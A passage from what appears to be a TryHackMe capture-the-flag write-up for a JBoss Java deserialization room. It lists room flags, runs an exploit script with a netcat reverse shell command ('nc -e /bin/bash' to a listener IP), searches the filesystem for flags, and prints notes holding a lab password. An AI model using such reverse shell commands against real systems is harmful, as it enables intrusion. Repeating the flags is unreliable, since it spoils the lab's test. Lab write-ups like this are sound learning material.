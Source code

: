* * * 

## Find Tony's Flag!

- Tony's flag is hidden inside one of the images on the site, unfortunely that image isnt available anymore `THM{Tony_Sure_Loves_Frosted_Flakes}`

* * * 

## Exploit

Download the task files and unzip. Also have to modify the exploit in order for it to run its missing many parantheses for prints. 

- setup netcap listener
- `python exploit.py 10.10.190.219:8080 "nc -e /bin/bash 10.2.127.225 6666"`

* * * 

## Find User JBoss' flag! 

We are tasked to find a flag that has the formatt of `THM{}`

To find files in linux containing certain characters we can use the find and grep command

- `find / -type f -exec grep -l "THM{" {} \; 2>/dev/null`

```
cat /home/jboss/.jboss.txt
```

* * * 

## Escalation!

Possible hint in cmnatic 

```
I like to keep a track of the various things I do throughout the day.

Things I have done today:
 - Added a note for JBoss to read for when he next logs in.
 - Helped Tony setup his website!
 - Made sure that I am not an administrator account 

Things to do:
 - Update my Java! I've heard it's kind of in-secure, but it's such a headache to update. Grrr!
```

Also checking the jboss home dir

```
cat note
Hey JBoss!

Following your email, I have tried to replicate the issues you were having with the system.

However, I don't know what commands you executed - is there any file where this history is stored that I can access?

Oh! I almost forgot... I have reset your password as requested (make sure not to tell it to anyone!)

Password: likeaboss

Kind Regards,
CMNatic
cmnatic@thm-java-deserial:/home/jboss$ 
```